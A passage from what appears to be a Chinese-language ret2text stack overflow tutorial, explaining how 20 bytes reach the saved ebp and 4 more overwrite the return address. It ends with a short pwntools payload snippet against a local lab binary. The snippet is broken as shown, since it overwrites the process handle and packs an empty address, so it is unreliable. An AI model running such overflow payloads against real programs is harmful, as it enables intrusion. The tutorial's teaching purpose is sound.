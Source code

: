 再覆盖 4 个字节，就可以把 previous ebp 也给覆盖掉

我们只要写入 20 个 A 就可以溢出到 ebp，父函数的 ebp 给覆盖掉

[![](assets/1701612384-04e64d3cbdaee9f64620cc8a21c10f5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202927-96f74986-1678-1.png)

[![](assets/1701612384-3114acda18de3e8a43e06505326795f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202931-993a1a5c-1678-1.png)

```plain
0x1c-0x18=0x04=4
```

如果我们再写 4 个字节就可以将返回地址也给覆盖掉

```plain
from pwn import *
io = process("./ret2text")
io = recvline()
payload = b'A' * 16 + b'BBBB' + p32('')
```

[![](assets/1701612384-8427247b905795ab07e9d96d782757ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202936-9c51584a-1678-1.png)
